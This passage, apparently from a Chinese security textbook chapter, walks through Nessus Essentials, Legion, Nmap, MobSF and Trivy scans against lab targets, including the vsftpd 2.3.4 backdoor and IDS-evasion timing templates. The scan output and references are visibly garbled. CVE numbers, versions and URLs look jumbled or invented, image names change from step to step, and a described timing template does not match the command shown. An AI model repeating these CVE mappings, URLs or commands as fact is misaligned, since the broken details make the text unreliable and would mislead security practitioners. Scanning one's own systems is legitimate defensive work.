### 许可说明

在许可方面，`Nessus` 提供了多个版本以满足多样化的用户需求。作为本次演示的示例，我们有 `Nessus Essentials`，这是一个专门为个人和家庭使用设计的免费版本。然而，它具有某些局限性，最多允许扫描 16 个 `IP` 地址。另一方面，付费版本 `Nessus Professional` 提供了适用于中小型企业或个人安全专业人员的高级功能和能力。

### Nessus Essentials 使用步骤

要使用 `Nessus Essentials`，你可以遵循以下简单的方法：

#### 1. 下载并安装

首先访问 `Tenable` 网站（`https://www.tenable.com/downloads/nessus?loginAttempted=true`）并获取最新版本的 `Nessus Essentials`。按照图 4.13 提供的说明下载并安装软件：



#### 2. 创建用户账户

运行 `Nessus Essentials` 并仔细按照屏幕上的说明创建用户账户。此步骤对于获取基本许可密钥至关重要，如图 4.14 所示：




*图 4.14：创建用户账户*



*图 4.15：创建新扫描*

#### 3. 创建新扫描

一旦软件安装完成，访问 `Nessus` 界面并导航到 `scans` 标签页。选择创建新扫描配置的选项，如图 4.15 所示：

#### 4. 自扫描设置

调整扫描设置以符合你的特定需求。在扫描配置中，你可以灵活选择各种扫描类型，例如基础网络扫描或 `Web` 应用程序扫描。此外，你还可以配置扫描策略、启用或禁用特定插件、设置扫描时间并进行其他必要的调整，如图 4.16 所示：

#### 5. 指定目标 IP 地址

在扫描配置中，指定你打算扫描漏洞所需的目标 `IP` 地址或范围。图 4.17 提供了此步骤的视觉指导。或者，你也可以从文件中导入 `IP` 地址列表。



#### 6. 启动扫描

一旦你定制了扫描设置，点击 `Launch`（启动）按钮启动漏洞扫描。此操作如图 4.18 所示，将开始扫描过程：





#### 分析扫描结果

完成后，在 `Nessus` 界面内审查看扫描结果。这些结果提供了有关已识别漏洞的全面信息，包括它们的严重程度、描述和修复建议。此外，你还可以生成各种格式的报告，如 `PDF`、`CSV` 和 `HTML`，如图 4.19 所示。

### 生成 CSV 报告

**报告格式：** `HTML` `PDF` `CSV`

| 列 | 另见 |
| --- | --- |
| 插件 ID | 插件输出 |
| `CVE` | `STIG` 严重性 |
| `CVSS v2.0` 基础分 | `CVSS v3.0` 基础分 |
| 风险 | `CVSS v2.0` 时间分 |
| 主机 | |
| 协议 | `CVSS v3.0` 时间分 |
| 端口 | `VPR` 评分 |
| 名称 | 风险因素 |
| 摘要 | 参考文献 |
| 描述 | 插件信息 |
| 解决方案 | 可利用工具 |

| 全选 | 清除 | 系统 |

生成报告

保存为默认

图 4.19：分析扫描结果

> 以前被称为 `OpenVAS` 的 `Greenbone` 漏洞管理 (`GVM`) 是一项著名的开源解决方案。它提供免费使用的 `GVM` 社区版和用于商业的 `GVM` 企业版，提供了全面的漏洞管理能力。

### Legion

它是一个开源、半自动的网络漏洞评估和渗透测试框架。其基于 `GUI` 的界面提供了广泛的自定义选项，并能够自动检测 `漏洞与披露 (CVEs)` 和 `通用平台枚举 (CPEs)`。`Legion` 包含了数百种工具和脚本以实现自动化扫描，包括 `Nmap`, `Hydra`, `WhatWeb`, `Nikto`, `SSLLyzer`, `SMBenum`, `Durbuster`, `Vulners` 和 `Webslayer`。让我们按照步骤了解如何配置扫描，并理解其功能：

#### 1. 在 Kali Linux 上安装 Legion

如果你的系统中尚未安装，可以轻松地下载并安装。

#### 2. 启动 Legion

一旦安装完成，启动应用程序并导航到主界面，如图 4.20 所示：



#### 3. 配置扫描

从主界面，你可以配置设置，例如目标 `IP` 范围、端口范围和扫描类型。通过点击扫描部分的添加主机按钮并填写目标详情，选择在扫描期间运行的工具和脚本，如图 4.21 所示：



#### 4. 启动扫描

配置完扫描设置后，按下提交按钮开始扫描。`Legion` 将执行工具和脚本，生成如图 4.22 所示的结果。



图 4.22：启动扫描

#### 5. 分析结果

扫描完成后，你可以分析结果并进行处理，如图 4.23 所示：



图 4.23：分析结果

### Nmap

`Nmap` 是一个用于网络发现和安全审计的开源强大工具。它被用于发现网络上的主机、确定主机上运行的服务并识别操作系统。

```
nmap -sV -sC 192.168.1.129 -oN scanout.txt

Starting Nmap for 192.168.1.129

Nmap 7.91 (Nmap) at 2023-02-21 23:56 EST

Host is up (0.000s).

PORT STATE SERVICE VERSION

21/tcp open vsftpd 2.3.4

21/tcp open ftp-vsftd-backdoor vsftpd 2.3.4

State ENABLED (polite)

vsftpd version 2.3.4, this was reported on 2011-07-04.

Guidance date: 2018-10-28

Exploit results:

Results: user:root

References:

https://exploit-db.com/vulns/46899

https://www.cve.org/vuln/details/CVE-2011-2127/vsftpd-23_backdoored.html

https://www.cve.org/vuln/details/CVE-2011-2127

21/tcp open vulns:

cssl: openssl 7.8.1f https://www.vulners.com/securityvulns/SECURITYVULNS:8116

CVE-2018-5648 7.5 https://www.vulners.com/securityvulns/SECURITYVULNS:8116

CVE-2020-2640 5.0 https://www.vulners.com/cve/CVE-2020-2640

CVE-2005-2735 5.0 https://www.vulners.com/cve/CVE-2005-2735 **EXPLOIT*

CVE-2012-0814 3.5 https://www.vulners.com/cve/CVE-2012-0814

CVE-2019-1580 3.5 https://www.vulners.com/cve/CVE-2019-1580

CVE-2021-4327 2.1 https://www.vulners.com/cve/CVE-2021-4327

CVE-2002-2522 1.2 https://www.vulners.com/cve/CVE-2002-2522

SECURITYVULNS:VULN:9455 https://www.vulners.com/securityvulns/SECURITYVULNS:VULN:9455
```

图 4.26：写入输出

* **调整扫描计时**：`Nmap` 提供了一种简单的方法，其包含六种计时模板，可以通过 `-T` 选项通过其数字（0–5）或名称使用。前两个模板专为规避 `IDS`（入侵检测系统）设计。要使用模板 2（礼貌模式），请运行命令 `nmap -sV -T4 --script vuln <target>`，如图 4.27 所示。

模板的名称为：
* 妄狂 (`T0`)
* 狡猾 (`T1`)
* 礼貌 (`T2`)
* 正常 (`T3`)
* 激进 (`T4`)
* 剧烈 (`T5`)

```bash
# [root@]# nmap -sV -T4 192.168.149.129

Starting nmap with 1 target at 2023-02-22 08:00 UTC

Nmap scan report for host (0.00s latency)

Not all 100 ports are listed (confused)

PORT STATE VERSION

21/tcp open  vsftpd 2.3.4

- vsftpd 2.3.4

VULNERABLE:

  State: VULNERABLE (exploitable)

  CVE-2011-2523

vsftpd version 2.3.4, this backdoor was reported on 2011-07-04.

Discovery date: 2011

Exploit results:

  Small command execution: id(root)

References:

  https://github.com/vulncheck/framework-blaster/master/exploits/unix/vsftpd_234_backdoor.rb

  https://www.vulners.com/cve/CVE-2011-2523

  https://scarysecurity.blogspot.com/2011/07/backdoor-vsftpd-download-backdoored.html

22/tcp open ssh

- Ubuntu-OpenSSH 7.4p1

CVE-2018-15463 7.5 https://www.vulners.com/securityvulns/SECURITYVULNS:8136

CVE-2020-4488 7.5 https://www.vulners.com/cve/CVE-2020-4488

CVE-2019-5669 5.0 https://www.vulners.com/cve/CVE-2019-5669 **EXPLOIT*

CVE-2018-5107 5.8 https://www.vulners.com/cve/CVE-2018-5107

CVE-2011-0014 3.5 https://www.vulners.com/cve/CVE-2011-0014

CVE-2011-5800 3.5 https://www.vulners.com/cve/CVE-2011-5800

CVE-2011-4327 2.1 https://www.vulners.com/cve/CVE-2011-4327

CVE-2014-3156 2.2 https://www.vulners.com/cve/CVE-2014-3156

SECURITYVULNS:VULN:9455 0.0 https://www.vulners.com/securityvulns/SECURITYVULNS:9455
```


### 调节速度

`--max-parallelism` 和 `--min-parallel` 选项可控制 `Nmap` 扫描的速度。例如，防止 `Nmap` 同时发送多个进程。

另一种调节速度的方法是使用 `--scan-delay` 选项。要使用 `--min-parallel` 实例，请运行命令 `nmap -sV <target> --min-parallel 300`，如图 4.28 所示。

```bash
# [root@]# nmap -sV -T4 192.168.149.129 --min-parallel 300

Starting nmap with min-parallel option is high! This can help reliability.

Nmap scan report for host (0.00s latency)

Discovery date: 2023-02-22 08:00 UTC

Not all 100 ports are listed (confused)

PORT STATE VERSION

21/tcp open  vsftpd 2.3.4

- vsftpd 2.3.4

VULNERABLE:

  State: VULNERABLE (exploitable)

  CVE-2011-2523

vsftpd version 2.3.4, this backdoor was reported on 2011-07-04.

Discovery date: 2011

Exploit results:

  Small command execution: id(root)

References:

  https://github.com/vulncheck/framework-blaster/master/exploits/unix/vsftpd_234_backdoor.rb

  https://www.vulners.com/cve/CVE-2011-2523

  https://scarysecurity.blogspot.com/2011/07/backdoor-vsftpd-download-backdoored.html

22/tcp open ssh

- Ubuntu-OpenSSH 7.4p1

CVE-2018-15463 7.5 https://www.vulners.com/securityvulns/SECURITYVULNS:8136

CVE-2020-4488 7.5 https://www.vulners.com/cve/CVE-2020-4488

CVE-2019-5669 5.0 https://www.vulners.com/cve/CVE-2019-5669 **EXPLOIT*

CVE-2018-5107 5.8 https://www.vulners.com/cve/CVE-2018-5107

CVE-2011-0014 3.5 https://www.vulners.com/cve/CVE-2011-0014

CVE-2011-5800 3.5 https://www.vulners.com/cve/CVE-2011-5800
```

### Mobile Security Framework (MobSF)

`Mobile Security Framework (MobSF)` 是一个针对 `Android`、`iOS` 和 `Windows` 的综合自动化安全框架。`MobSF` 可以在运行时进行静态和动态分析。该框架由 `CapFuzz`（专门针对 `Web` `API` 的扫描器）驱动，也具有强大的模糊测试能力。分析结果以易访问的方式呈现在 `MobSF` 仪表板上，并可以下载进行进一步分析。让我们深入了解配置应用程序扫描并生成报告的步骤：

#### 1. 打开 MobSF

导航到 `MobSF` 文件夹并运行命令 `./run.sh`，如图 4.29 所示：

```bash
# [root@]# ~/Desktop
$ cd Mobile-Security-Framework/
# [root@]# ~/Mobile-Security-Framework/
$ ./run.sh
```


### 启动日志

```log
[2023-02-12 22:18:16-0500] [152197] INFO Starting gunicorn 20.1.0

[2023-02-12 22:18:16-0500] [152197] INFO Listening at: http://0.0.0.0:8000 (152197)

[2023-02-12 22:18:16-0500] [152197] INFO Using worker: gthread

[2023-02-12 22:18:16-0500] [152197] INFO Booting worker with pid: 152202
```

图 4.29：打开 `MobSF`

### 2. 选择静态分析
一旦 `MobSF` 启动，通过在浏览器中访问 `http://0.0.0.0:8000` 进入其仪表板。在 `MobSF` 仪表板上，选择静态分析选项，如图 4.30 所示：


图 4.30：选择静态分析

### 3. 上传移动应用
点击 `Upload and Analyze`（上传并分析）按钮并上传目标移动应用程序。上传成功后，扫描将自动开始，如图 4.31 所示：



图 4.31: 上传移动应用

### 4. 分析结果
扫描完成后，在 `MobSF` 仪表板上查看结果。结果将包含发现的漏洞信息、严重程度以及修复建议，如图 4.32 所示。



图 4.32: 分析结果

### 5. 生成报告
要生成报告，点击 `PDF Report`（PDF 报告）按钮，如图 4.33 所示：



图 4.33: 生成报告

### 6. `MobSF` 评分卡
`MobSF` 为每个扫描的应用分配一个安全评分，表示遵循安全准则和最佳实践的百分比。要查看评分卡，进入 `Recent Scans`（最近扫描）并点击 `MobSF Scorecard`，这会将你带到分析仪表板，如图 4.34 和图 4.35 所示：



你也可以在 `Actions`（操作）选项卡中执行对比扫描以重新验证发现的结果，如所示。



注：我们使用了 `InsecureBankv2.apk` 进行测试，该文件下载自 `https://github.com/dineshshetty/Android-InsecureBankv2/bkob/master/InsecureBankv2.apk`（来源：Dinesh Shetty）。

## 容器

评估容器漏洞是确保容器化应用安全的关键方面。这一过程涉及实施安全工具和策略，以识别并缓解潜在威胁。使用容器的优点如易于扩展、成本效益和部署快速，使其成为企业的热门选择。然而，这些优势也使得优先考虑其安全性至关重要。通过对容器镜像进行漏洞扫描，开发者和 `DevOps` 团队可以评估部署的安全状态，并采取必要步骤解决识别出的任何问题，从而实现更安全的整体系统。为了实践本文练习涵盖的概念，我们将使用命令行工具 `Trivy` 作为参考案例研究。评估的主要目标是评估以下领域：

- 镜像安全
- 容器运行时安全
- 网络安全
- 数据安全
- 访问控制
- 合规性
- 事件响应与灾难恢复

## Trivy

`Trivy` 是一款开源的多容器安全评估工具，可以扫描多种来源，包括容器镜像、文件系统、`Git` 仓库、虚拟机、`Kubernetes` 和 `AWS`。`Trivy` 可以识别多种安全风险，包括操作系统软件包漏洞 (`SBOM`)、常见漏洞和暴露 (`CVE`)、基础设施即代码 (`IaC`) 问题和配置错误、敏感信息和密钥以及软件许可证。为了演示 `Trivy` 的实际能力，我们将使用包含已知漏洞的 `vulnerable/web-dwva` 容器镜像作为目标。现在，让我们深入以全面且组织的方式进行扫描并审查结果的过程：

### 1. 安装 Docker
要安装 `Docker`，在终端中运行命令 `apt install -y docker.io`，如图 4.36 所示：

```bash
umneedel@kali:~/Desktop

$ sudo apt install -y docker.io

[sudo] password for umneedel ... Done

Reading lists ... Done

Building dependency tree ... Done

Reading state information ... Done

The following packages were automatically installed and are no longer required:

docutils-common-python3-abaster python-docutils-python3-imagesize-roman py

Use sudo apt autoremove to remove

The following additional packages will be installed:

groups-fault containerd.io libreadline-perl libbuild-xs-perl libmodule-find-perl libmo

libsort-naturally-perl needrestart perl-perl-base-modules-3.6 run tic

Suggested packages:

containernetworking-plugins-docker-afs btrfs-groups deobstrap rinse root

ibterm-readline-gnu-perl | libterm-readline-perl-perl libtaparness-archive-perl

The following NEW packages will be installed:
```

图 4.36: 安装 `docker`

### 2. 启用 Docker 自启动
要让 `Docker` 在机器重启时自动启动，运行命令 `systemctl enable docker --now`，如图 4.37 所示：

```bash
umneedel@kali:~/Desktop

$ sudo systemctl enable docker --now

Synchronization of date, service SysV service script with /lib/systemd/systemd-sysv-install.

Executing: /lib/systemd/systemd-sysv-install enable docker
```

图 4.37: 启用 `Docker` 自启动

### 3. 拉取漏洞镜像
运行命令 `sudo docker pull vulnerabilities/web-dwwa` 将漏洞容器镜像拉取到 `Docker`，如图 4.38 所示：

```bash
umneedel@kali:~/Desktop

$ sudo docker pull vulnerabilities/web-dwwa

Using default tag: latest

Pulling from vulnerabilities/web-dwa

digest: sha256:da3e203f1164a869378f4d0b07ade295f426a92b40e3b18fdaa7

Status: Downloaded newer image for latest
```

图 4.38: 拉取漏洞镜像

### 4. 列出镜像
如图 4.39 所示查看镜像仓库和标签列表：

```bash
$ sudo docker images 

REPOSITORY            TAG     IMAGE ID       CREATED       SIZE

vulnerable/web-dwa  latest  ab0d358b6e6  4 years ago   712MB
```

图 4.39: 列表已完成

### 5. 执行扫描
设置完成后，运行命令 `sudo trivy vulnerabilities/web-dwa:latest` 开始扫描，如图 4.40 所示：

```bash
$ sudo trivy vulnerabilities/web-dwa:latest

